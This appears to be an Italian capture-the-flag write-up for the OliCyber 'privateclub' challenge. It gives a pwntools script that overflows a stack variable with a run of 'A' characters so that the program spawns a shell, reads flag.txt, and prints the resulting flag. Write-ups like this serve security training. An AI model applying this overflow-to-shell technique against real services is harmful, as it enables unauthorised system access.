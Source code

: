 > Solo chi ha il badge potrà entrare nel mio club privato :)

Si può risolvere con uno script python:

```python
from pwn import *

context.log_level = 'error'
elf = ELF("privateclub")
r = remote("privateclub.challs.olicyber.it", 10015)
r.recvuntil("\n")
r.sendline("19")
r.recvuntil("\n")
r.sendline("A" * 90)
r.interactive()
```

Dato che per la logica del programma se la variabile `local_14` contiene un valore diverso da `0x10` il viene eseguito `/bin/sh`, potremmo tentare di sovrascrivere il valore di quella variabile grazie ad un overflow al momento della richiesta del nostro nome. COsì otteniamo la shell e possiamo cattuare la flag con `cat flag.txt`.

**flag{b4d_sc4nf}**